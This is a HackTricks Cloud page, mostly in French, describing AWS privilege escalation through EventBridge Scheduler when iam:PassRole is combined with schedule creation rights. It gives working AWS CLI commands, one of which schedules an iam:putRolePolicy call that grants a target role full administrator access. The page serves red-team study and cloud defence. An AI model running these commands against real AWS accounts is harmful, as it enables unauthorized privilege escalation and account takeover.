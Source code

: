 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

Plus d'infos sur EventBridge Scheduler dans :

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Un attaquant avec ces permissions pourra **`créer`|`mettre à jour` un planificateur et abuser des permissions du rôle de planificateur** qui y est attaché pour effectuer n'importe quelle action.

Par exemple, ils pourraient configurer le plan pour **invoquer une fonction Lambda** qui est une action template :
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
En plus des actions de service modélisées, vous pouvez utiliser **des cibles universelles** dans EventBridge Scheduler pour invoquer un large éventail d'opérations API pour de nombreux services AWS. Les cibles universelles offrent la flexibilité d'invoquer presque n'importe quelle API. Un exemple peut être l'utilisation de cibles universelles ajoutant "**AdminAccessPolicy**", en utilisant un rôle qui a la politique "**putRolePolicy**" :
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Références

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team AWS (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Formation Expert Red Team GCP (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
